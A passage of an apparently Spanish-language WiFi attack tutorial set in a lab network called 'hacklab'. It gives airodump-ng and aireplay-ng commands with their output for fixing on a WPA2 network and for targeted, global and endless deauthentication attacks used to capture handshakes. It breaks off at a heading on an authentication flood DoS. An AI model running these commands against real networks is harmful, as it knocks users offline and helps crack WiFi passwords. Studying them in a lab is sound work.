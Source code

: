 ## Fijar una red

```bash
# sudo airodump-ng -c 1 -w Captura --bssid F4:71:90:48:71:AC wlan0

 CH  1 ][ Elapsed: 42 s ][ 2021-12-28 16:40 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 F4:71:90:48:71:AC  -29 100      412      168    0   1   65   WPA2 CCMP   PSK  hacklab                                                

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 F4:71:90:48:71:AC  18:D6:1C:92:2A:E4  -56    1e-24e     0      191

```

-c es el canal en el que se encuentra la red, y --bssid es la MAC de AP (Access Point). 

## Captura de Handshake

**Ataque de deautenticación dirigido:** Tratamos de expulsar a una estación especifica de la red:

```bash
# sudo aireplay-ng -0 10 -a F4:71:90:48:71:AC -c 18:D6:1C:92:2A:E4 wlan0

17:04:40  Waiting for beacon frame (BSSID: F4:71:90:48:71:AC) on channel 1
17:04:41  Sending 64 directed DeAuth (code 7). STMAC: [18:D6:1C:92:2A:E4] [ 1|17 ACKs]
17:04:41  Sending 64 directed DeAuth (code 7). STMAC: [18:D6:1C:92:2A:E4] [16|41 ACKs]
17:04:42  Sending 64 directed DeAuth (code 7). STMAC: [18:D6:1C:92:2A:E4] [ 0|50 ACKs]
17:04:43  Sending 64 directed DeAuth (code 7). STMAC: [18:D6:1C:92:2A:E4] [ 0|26 ACKs]
17:04:44  Sending 64 directed DeAuth (code 7). STMAC: [18:D6:1C:92:2A:E4] [ 0|52 ACKs]
17:04:44  Sending 64 directed DeAuth (code 7). STMAC: [18:D6:1C:92:2A:E4] [ 0|26 ACKs]
17:04:45  Sending 64 directed DeAuth (code 7). STMAC: [18:D6:1C:92:2A:E4] [ 0|51 ACKs]
17:04:46  Sending 64 directed DeAuth (code 7). STMAC: [18:D6:1C:92:2A:E4] [ 0|26 ACKs]
17:04:48  Sending 64 directed DeAuth (code 7). STMAC: [18:D6:1C:92:2A:E4] [ 0|89 ACKs]
17:04:48  Sending 64 directed DeAuth (code 7). STMAC: [18:D6:1C:92:2A:E4] [ 0|23 ACKs]

```

-a es la MAC del AP y -c es la MAC del cliente. También, se puede hacer intentos de deautenticación infinitos:

- sudo aireplay-ng -0 0 -a F4:71:90:48:71:AC -c 18:D6:1C:92:2A:E4 wlan0

**Ataque de deautenticación global:** Lo mismo que antes, pero a todos las estaciones que se detecten en la red objetivo.

- sudo aireplay-ng -0 10 -a F4:71:90:48:71:AC -c FF:FF:FF:FF:FF:FF wlan0

- sudo aireplay-ng -0 0 -a F4:71:90:48:71:AC  -c FF:FF:FF:FF:FF:FF wlan0

**Ataque de autenticación:** Autentica muchos clientes y al final la red se vuelve lenta y expulsa a todos (DoS):

